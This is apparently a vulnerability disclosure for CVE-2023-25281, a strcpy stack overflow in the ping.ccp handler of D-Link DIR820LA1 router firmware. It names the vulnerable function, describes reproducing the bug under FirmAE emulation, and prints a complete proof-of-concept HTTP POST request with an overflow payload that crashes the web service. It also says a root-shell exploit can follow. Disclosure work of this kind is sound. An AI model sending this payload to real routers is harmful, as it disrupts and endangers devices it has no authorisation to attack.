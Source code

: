 # D-link DIR820LA1_FW105B03 Stack Overflow vulnerability

A stack overflow  vulnerability exists in pingV4Msg of component "/ping.ccp" of D-Link DIR820LA1_FW105B03, allowing an attacker to elevate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

## 1. Affected version

DIR820LA1_FW105B03

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_49E5B0` function obtains the content of the variable `nextPage`  from the request of `/ping.ccp`, use strcpy to copy input data. The length of the string is not considered, and the stack overflows when the input is too long.

![vuln1](vuln1.png)

The ccp_ping function references the vulnerable `sub_49E5B0` function when the ccp_act parameter is set to cancelPing.

![vuln2](vuln2.png)



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW105B03.bin

​	<img src="firmAE.png" alt="firmAE" style="zoom:70%;" /><img src="FirmAE2.png" alt="FirmAE2" style="zoom:70%;" />

2. Attack with the following POC attacks

​	**Attack Vector**：`ccp_act=cancelPing&nextPage=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

- Run the poc, the router's web service will crash

```xml
POST /ping.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 760
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=cancelPing&nextPage=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.



## Disclosure

- Feb 7, 2023:Public disclosure

- Mar 7, 2023:Assign CVE number CVE-2023-25281